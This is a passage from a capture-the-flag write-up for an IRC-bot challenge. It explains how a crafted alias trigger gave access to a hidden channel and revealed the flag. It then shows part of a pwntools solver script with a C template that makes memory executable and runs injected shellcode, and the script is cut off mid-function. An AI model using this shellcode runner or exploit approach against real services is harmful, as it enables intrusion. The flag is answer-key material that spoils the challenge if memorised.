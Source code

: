 ```py
```


This code block checked for "alias expiry time" and if everything was fine, it ran the saved command with our passed arguments.
The trigger was simply `/@sz szymex73 # aa aa` (The aa's were added here because of some parsing problems we had).

With the payload successfully executed we were given and invite to the secret `#` channel and could now see the admin list.
![user list](userlist.png)
> `CTF-BR{deadcow,kubben,marmota,rafael_p,sputnick}`


## Full script
My full solver script below:
```py
from pwn import *
import os

recpt = "Backbone94" # Backbone91/Backbone94/Backbone97 - hosted by organizers
sock = remote('irc.teleforce.space', 1)

sock.sendline('NICK rafael_p0 rafael_p')
sock.sendline('USER rafaeleet0s rafaeleet0s irc.teleforce.space :rafaeleet0s')

cc_template = """
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

unsigned char code[] = (
	"SHELLCODE_HERE"
);

int main(){
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  int (*ret)() = (int(*)())code;
  return ret();
}

"""

def sc_compile(shellcode):
    code = cc_template.replace('SHELLCODE_HERE', shellcode)
    os.system('rm -f temp.c temp temp_out')
    f = open('./temp.c', 'w')
    f.write(code)
```